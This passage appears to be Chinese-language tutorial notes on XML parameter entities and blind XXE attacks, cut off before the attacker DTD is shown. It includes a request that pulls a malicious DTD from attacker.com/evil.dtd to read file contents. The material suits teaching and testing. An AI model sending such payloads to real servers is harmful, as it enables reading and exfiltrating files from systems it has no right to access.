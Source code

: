 **参数实体：**

(1)使用 `% 实体名`(**这里面空格不能少**) 在 DTD 中定义，并且**只能在 DTD 中使用 **`%实体名;` **引用**
(2)只有在 DTD 文件中，参数实体的声明才能引用其他实体
(3)和通用实体一样，参数实体也可以外部引用

**示例代码：**

```
<!ENTITY % an-element "<!ELEMENT mytag (subtag)>"> 
<!ENTITY % remote-dtd SYSTEM "http://somewhere.example.org/remote.dtd"> 
%an-element; %remote-dtd;
```

参数实体在我们 Blind XXE 中起到了至关重要的作用 

接下来怎么做？（解决办法）

除了**一般实体**，这是我们到目前为止所看到的，还有**参数实体**。 以下是参数实体的外观。它与一般实体相同，除了它存在于DTD内部并以％作为前缀开始，以指示XML解析器正在定义参数实体（不是通用实体）。在下面的示例中，参数实体用于定义通用实体，然后在XML文档内部调用该实体。 

request:

```xml-dtd
POST http://example.com/xml HTTP/1.1

<!DOCTYPE data [
  <!ENTITY % paramEntity
  "<!ENTITY genEntity 'bar'>">
  %paramEntity;
]>
<data>&genEntity;</data>
```

预期的response:

```xml-dtd
HTTP/1.0 200 OK

bar
```

考虑到上面的示例，攻击者现在可以通过创建在**attacker.com/evil.dtd上**托管的恶意DTD，将上面的理论CDATA示例转换为工作**攻击。** 

**request:**

```xml-dtd
POST http://example.com/xml HTTP/1.1

<!DOCTYPE data [
  <!ENTITY % dtd SYSTEM
  "http://attacker.com/evil.dtd">
  %dtd;
  %all;
]>
<data>&fileContents;</data>
```

 **攻击者DTD（attacker.com/evil.dtd）** 
